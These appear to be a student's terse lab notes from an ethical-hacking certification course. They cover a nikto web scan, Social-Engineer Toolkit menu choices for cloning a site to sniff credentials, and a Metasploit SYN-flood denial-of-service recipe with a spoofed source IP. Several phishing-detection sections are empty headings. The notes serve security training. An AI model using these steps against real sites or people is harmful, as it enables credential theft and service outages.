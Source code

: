 osvdb
host-name

nikto -h www.certifiedhacker.com -o results -F txt


## 76. 
map drive `windows11\\ceh-tools`


## 90. Sniff Credentials using the Social-Engineer Toolkit(SET)
---
sudo su 
settoolkit
yes
5
1
![[Pasted image 20241026000631.png]]
 2
![[Pasted image 20241026000650.png]]
3
![[Pasted image 20241026000822.png]]
2
![[Pasted image 20241026000839.png]]
enter
http://www.moviescope.com
![[Pasted image 20241026000917.png]]


## 91. Detect Phishing using Netcraft
---



## 92. Detect Phishing using PhishTank
---




## 93. Audit Organization's Security for Phishing Attacks using OhPhish
---



## 94. Perform DoS Attack(SYN Flooding ) on a Target Host with Metasploit
-- -
1. msfconsole
2. use auxiliary/dos/tcp/synflood
3. set rhost {target}
4. set rport {target_port_number}
5. set SHOST {fake IP address to show target from where packets are comming}
6. exploit
